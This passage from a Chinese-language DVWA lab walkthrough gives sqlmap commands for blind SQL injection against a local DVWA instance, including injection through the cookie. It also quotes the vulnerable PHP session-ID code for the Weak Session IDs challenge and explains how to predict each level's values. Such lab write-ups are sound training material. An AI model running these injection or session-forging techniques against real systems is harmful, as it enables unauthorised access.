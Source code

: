 ```python
sqlmap -u "http://127.0.0.1:8888/vulnerabilities/sqli_blind/" --cookie="你的cookie" --data="id=1*&Submit=Submit" --dbms=MySQL --technique=B --random-agent --flush-session -v 3
```

### High

从cookie 中获取 id 然后倒入到数据库中查询

```python
sqlmap -u "http://127.0.0.1:8888/vulnerabilities/sqli_blind/" --cookie="id=1*;你的cookie" --dbms=MySQL --technique=B --random-agent --flush-session -v 3
```

## Weak Session IDs 脆弱的 Session

会话认证伪造

### Low

查看源码

```php
if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id'])) {
        $_SESSION['last_session_id'] = 0;
    }
    $_SESSION['last_session_id']++;
    $cookie_value = $_SESSION['last_session_id'];
    setcookie("dvwaSession", $cookie_value);
}
```

发现 dvwaSession 的值每次生成 +1 ，直接遍历 dvwaSession 来获取用户信息

### Medium

查看源码

```php
if ($_SERVER['REQUEST_METHOD'] == "POST") {
    $cookie_value = time();
    setcookie("dvwaSession", $cookie_value);
}
```

发现这里根据 time() 时间戳来生成 dvwaSession 的值,这里时间戳是有规律的，直接利用在线时间戳生成转换即可

### High

查看源码

```PHP
if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if (!isset ($_SESSION['last_session_id_high'])) {
        $_SESSION['last_session_id_high'] = 0;
    }
    $_SESSION['last_session_id_high']++;
    $cookie_value = md5($_SESSION['last_session_id_high']);
    setcookie("dvwaSession", $cookie_value, time()+3600, "/vulnerabilities/weak_id/", $_SERVER['HTTP_HOST'], false, false);
}
```
